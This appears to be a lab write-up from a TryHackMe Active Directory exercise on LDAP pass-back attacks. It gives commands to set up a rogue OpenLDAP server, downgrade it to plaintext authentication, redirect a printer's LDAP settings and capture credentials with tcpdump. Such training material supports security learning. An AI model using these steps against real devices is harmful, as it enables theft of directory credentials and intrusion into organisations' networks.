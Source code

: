 # LDAP bind credentials

Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) 
authentication. LDAP authentication is similar to NTLM authentication. And with LDAP authentication, the 
application directly verifies the user's credentials. The application has a pair of AD credentials that it 
can use first to query LDAP and then verify the AD user's credentials.

LDAP authentication is a much used mechanism with third-party (non-Microsoft) applications that integrate with AD. 
Examples of applications and systems:

* Gitlab
* Jenkins
* Custom-developed web applications
* Printers
* VPNs

If any of these applications or services are exposed on the internet, the same type of attacks as leveraged 
against NTLM authenticated systems can be used. And because a service using LDAP authentication requires a set of 
AD credentials, it opens up additional attack avenues. We can attempt to recover the AD credentials used by the 
service to gain authenticated access to AD.

## LDAP pass-back

A common attack against network devices, such as printers, when you have gained initial access to the 
internal network, such as plugging in a rogue device in a boardroom.

LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters 
are specified. This can be, for example, the web interface of a network printer. Often, the credentials for these 
interfaces are kept to the default ones, such as `admin:admin` or `admin:password`. 

In this case, we can not directly extract the LDAP credentials because the password is hidden. 
But we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, 
we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt 
LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.

## Rogue LDAP server

install OpenLDAP:

    sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

Reconfigure the LDAP server to use `za.tryhackme.com` for the DNS domain name and Organisation:

    sudo dpkg-reconfigure -p low slapd

Make it vulnerable by downgrading the supported authentication mechanisms. Create a file `olcSaslSecProps.ldif`:

```text
# olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

* `olcSaslSecProps`: Specifies the SASL security properties
* `noanonymous`: Disables mechanisms that support anonymous login
* `minssf`: Specifies the minimum acceptable security strength with 0, meaning no protection.

Use the `ldif` file to patch the LDAP:

```text
$ sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
SASL/EXTERNAL authentication started
SASL username: gidNumber=0+uidNumber=0,cn=peercred,cn=external,cn=auth
SASL SSF: 0
modifying entry "cn=config"
```

Check:

    ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
    dn:
    supportedSASLMechanisms: PLAIN
    supportedSASLMechanisms: LOGIN

## Capturing LDAP credentials

Click the "Test Settings" at `http://printer.za.tryhackme.com/settings.aspx` again, the authentication will occur 
in clear text. If you the rogue LDAP server is configured correctly, and is downgrading the communication, you 
will receive the following error: "This distinguished name contains invalid syntax". 

If you receive this error, you can use a tcpdump to capture the credentials:

    sudo tcpdump -SX -i breachad tcp port 389